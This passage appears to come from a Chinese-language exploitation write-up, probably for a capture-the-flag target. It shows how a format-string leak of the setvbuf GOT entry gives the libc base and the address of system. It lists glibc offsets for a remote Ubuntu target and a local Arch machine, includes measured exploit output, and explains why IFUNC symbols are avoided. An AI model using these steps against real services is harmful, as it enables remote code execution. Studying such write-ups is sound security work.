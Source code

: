 \documentclass[10pt,a4paper]{article}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
\paragraph{8.2 計算式}\label{ux8a08ux7b97ux5f0f}

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
setvbuf_libc = *(uint64_t *)0x404020          # 用 %14$s 讀出來（NUL 結尾，6 bytes）
libc_base    = setvbuf_libc - 0x88540         # 遠端（Ubuntu 24.04 glibc 2.39-0ubuntu8.x）
system       = libc_base    + 0x58740

# 本機（Arch，跑 exploit.py 不加參數時使用）
libc_base    = setvbuf_libc - 0x843f0
system       = libc_base    + 0x54580
\end{Verbatim}

交叉驗證（用第二個洩漏確認沒算錯，程式會自動印出來）：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
*(uint64_t *)0x404040 - libc_base == 0x2045c0   # &_IO_2_1_stdout_
\end{Verbatim}

實測輸出：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
[+] setvbuf@libc = 0x78d497ba3540   ->   libc base = 0x78d497b1b000
[*] &_IO_2_1_stdout_ = 0x78d497d1f5c0 (base+0x2045c0)     ← 完全吻合
[+] system = 0x78d497b73740
\end{Verbatim}

\paragraph{\texorpdfstring{8.3 為什麼用 \texttt{setvbuf} 而不是
\texttt{len}/\texttt{strcspn}}{8.3 為什麼用 setvbuf 而不是 len/strcspn}}\label{ux70baux4ec0ux9ebcux7528-setvbuf-ux800cux4e0dux662f-lenstrcspn}

\begin{itemize}
\tightlist
\item
  \texttt{setvbuf} 在 \texttt{main} 執行前就被 \texttt{0x401190} 呼叫過
  → GOT 一定已解析成真正的 libc 位址。
\item
  \texttt{strlen}、\texttt{strcspn} 是
  \textbf{IFUNC}（多版本最佳化），GOT 裡是「被 CPU 特性挑中的實作」
  （例如 \texttt{\_\allowbreak{}\_\allowbreak{}strcspn\_\allowbreak{}avx2}），不是符號本身的 offset，拿來當
  fingerprint 會誤判。
\end{itemize}
\end{document}
